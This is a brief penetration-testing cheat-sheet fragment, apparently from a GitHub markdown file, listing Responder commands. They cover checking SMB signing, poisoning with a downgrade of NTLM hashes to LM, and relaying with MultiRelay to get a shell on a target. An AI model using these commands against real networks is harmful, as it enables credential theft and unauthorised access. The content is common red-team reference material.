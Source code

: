 #### Search for SMB signing
* `responder-RunFinger -i <target>`

#### Responder 
* `responder -I <interface> <--lm>`
  - `--lm` downgrade NTLMv1/v2 hashes to LM hashes where possible
#### Getting shell
While responder is running:
* `responder-MultiRelay -t <target> -u <username/ALL> `

Meterpreter shell:
* see Metasploit.md from this section
